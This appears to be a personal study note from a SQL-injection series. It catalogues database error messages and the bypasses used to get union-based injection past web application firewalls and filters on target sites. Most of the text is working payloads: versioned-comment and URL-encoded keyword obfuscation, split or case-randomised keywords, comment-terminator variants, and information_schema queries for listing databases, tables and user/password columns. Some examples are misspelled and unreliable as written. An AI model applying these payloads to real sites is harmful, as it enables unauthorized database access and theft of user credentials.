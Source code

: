 # <mark style="background: #FF5582A6;">For Review :</mark> 
[[2-Sql Injection (Basic)]]
# Intro :
## <mark style="background: #FF5582A6;">Attention to errors :</mark> 
on target site that give us several warning during the penetration test, in addition to the main error; which is for the number of columns.
when reducing the number of columns (order by), even if one of the warning is cleared.
we see this as a sign of the loading of the target site and we can go to the next step (union select), and it isn't necessary to continue the step of finding the number of columns untill all the warnings are cleared.
# Errors :
1. Forbidden Or Not Acceptable Or Internal Server Error Or 412 Error:
	- <mark style="background: #FFB86CA6;">/*!12345 */</mark> 
		for example :
		/* !12345union * / /* !12345select * / 1,2,3,4,5,
		/* !12345group_concat(table_name) * /,7,8,9 /* !12345from * / 
		/* !12345information_schema * /./* !12345tables * / where table_schema=database()--
	### <mark style="background: #FF5582A6;">Point 1 :</mark> 
	if the above bypass doesn't work :
    - <mark style="background: #FFB86CA6;">%23AAAAA%0aunion %23AAAAA%0aselect ...</mark> 
	 (%23AAAAA%0a it's only use for union and select)
      if the above bypass doesn't work again :
	URL Encode :
     - we hex the first u of the union and the first s of the select and put the % instead of 0x.
		(u in union ---> 0x75 ---> %75 ---> %75nion)
		(s in select ---> 0x73 ---> %73 ---> %73elct)

	<mark style="background: #FF5582A6;">other bypass : </mark> 
	- (union) (select)
	- (uni)(on) (sel)(ect)
	- uni * on sel * ect
	   (there are no spaces in the command, except between union and select)
	- uni/ * * /ion sel/ * * /ect
	   (there are no spaces in the command, except between union and select)
	- uni%0bon sel%0bect
	- %2575nion %2575elect
	   (in addition to the first letter, we have also hexed : %)

	  ### <mark style="background: #FF5582A6;">Point 2 :</mark> 
	  if the problem isn't solved with these bypasses :
	- we turn on the CapsLock and from each of the words of our command code, we wirte which letter is randomly capitalized.
	   if the problem is still not solved, we should see which of the words in our code the target site is sensitive to.
	   in such a way that :
	- first, we delete the <mark style="background: #FF5582A6;">group_concat</mark> so that only the <mark style="background: #FF5582A6;">table_name</mark> remains.
	- if the problem wasn't from the <mark style="background: #FF5582A6;">group_concat</mark> , we delete our commands from the <mark style="background: #FF5582A6;">from</mark> to the end, so that only the <mark style="background: #FF5582A6;">table_name</mark> remains and instead of the <mark style="background: #FF5582A6;">table_name</mark> we wirte <mark style="background: #FF5582A6;">the corresponding column number</mark>. if it's loaded correctly, it means that 100% of the problem is from <mark style="background: #FF5582A6;">table_name</mark> . there is no replacement for table_name, so we continue the target with :
	- [[9-Version 4]]

2. the used SELECT statements have a different number of columns :
	1. [[12-Xpath Injection]]
	2. Point 1 in third step in [[2-Sql Injection (Basic)]]
		((-) behind the ?id number and etc)
	3. Change directory

3. Illegal mix of collation for operation 'UNION' :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 
		(it also used for when <mark style="background: #FF5582A6;">the important table doesn't show us any column</mark> )

4. Permission Denied in first step :
	- <mark style="background: #FFB86CA6;">using group by instead of order by</mark> 

5. if we see a ('/') in the error, it means that the site is sensitive to quotations.

6. Redirecting the page :
	if the page redirecting by typing quotation at the end of the URL, it means it goes to another page, we typing (order by 9999--) which will probably be redirecting again, but if we typing (order by 1--) and the page isn't redirectiong, so being redirecting means the site isn't load or it's an error.
	therefore, we find the number of columns in the same way as we learned in the
	[[2-Sql Injection (Basic)]].

7. Table 'the name of table' doesn't exist :
	we must write the name of the database before the important table :
	- <mark style="background: #FFB86CA6;">the name of database<mark style="background: #FF5582A6;">.</mark> the important table</mark> 
	if the site has several database with :
	- <mark style="background: #FFB86CA6;">union select group_concat(schema_name) from information_schema.schemata--</mark> 
	we find all databases of the site and put them one by one before the important table to find out which database is for the important table.

8. Service Unavailable Error :
	<mark style="background: #FF5582A6;">sensitive to group_concat</mark> 
	when we delete the group_concat, the site only show us one table.
	so we use :
	[[6-Limit (Method)]]
	to see rest of the tables one by one.

9. We may encounter a <mark style="background: #FF5582A6;">fatal error or Illegal mix of collation for operation 'UNION' </mark> in one of the following stage :
	1. group_concat(table_name)
	2. group_concat(column_name)
	3. group_concat(user,0x3a,pass)
	
	(Or don't display the information and don't have any error Or display the information but have an initial error)
	the bypass is as follows :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 

	if the problem isn't solved :
	- <mark style="background: #FFB86CA6;">uncompress(compress(group_concat(table_name)))</mark> 

	if in third stage encounter to above errors, in addition to these ways for solve the problem also we can :
	- we turn on the CapsLock and from each of the words of our command code, we wirte which letter is randomly capitalized.
	  (Except unhex, hex, important table, important columns).

10. The target site sensitive to tables (in the phrase : <mark style="background: #FF5582A6;">from information_schema.tables</mark> ),
     Tables alternatives :
	- <mark style="background: #FFB86CA6;">from information_schema.statistics--</mark> 
	- <mark style="background: #FFB86CA6;">from information_schema.partitions--</mark> 

11. The target site sensitive to : <mark style="background: #FF5582A6;">where table_schema=database()--</mark> 
	the alternative to the above command code is :
	- <mark style="background: #FFB86CA6;">from information_schema.keys_column_usage--</mark> 

12. If in the <mark style="background: #FF5582A6;">group_concat</mark> step, the target page became wihte with no text :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 

13. Some site have limitations on character printing, so when we delete (br in '<>'),
    the target site may show us more important characters.
    
    When a site has a character limit, we have to delete the <mark style="background: #FF5582A6;">group_concat</mark> , sometimes it displays all the tables one by one without <mark style="background: #FF5582A6;">group_concat</mark> , but if it doesn't happen like this : [[6-Limit (Method)]]

14. If with :
	- <mark style="background: #FF5582A6;">?id=1 order by 9999--</mark> 
	the site was loaded, according to what we learned, we know the site shouldn't be loaded, so we write :
	- <mark style="background: #FF5582A6;">?id=1' order by 9999--+</mark> 
	if we encounter an <mark style="background: #FF5582A6;">forbidden</mark> at this step, we give the possibility that the site is <mark style="background: #FF5582A6;">sensitive to quotation ( ' ) or +</mark> .
	of course, there is no need to encounter an forbidden and when we use (' +)
	and ('order by 9999--+) and ('order by 1--+) gave us an error, we should doubt that the site is sensitive to + at the end of our command.
	quotation has no replacement, but the + in last of the our command can be changed in the following ways :
	1. -- -
	2. +--+
	3. +--+-
	4. --#
	5. -- * /          (there are no spaces in the command) 
	6. --/ * * /      (there are no spaces in the command)
	7. --* / * * /    (there are no spaces in the command)

15. If a site delete the <mark style="background: #FF5582A6;">union select</mark> , it means, that the site is sensitive to <mark style="background: #FF5582A6;">union select</mark> 
     so we do this :
       - <mark style="background: #FFB86CA6;">UNIunionON SELselectECT</mark> 

16. if important tables are not shown in the source ([[5-Source (Method)]]) :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 

17. when we tarnslated the important table or important columns of a non-English site and saw the confused and strange letters that were not understandabe, instead of <mark style="background: #FF5582A6;">unhex(hex(group_concat(table_name)))</mark> we write :
	 - <mark style="background: #FFB86CA6;">binary(group_concat(table_name))</mark> 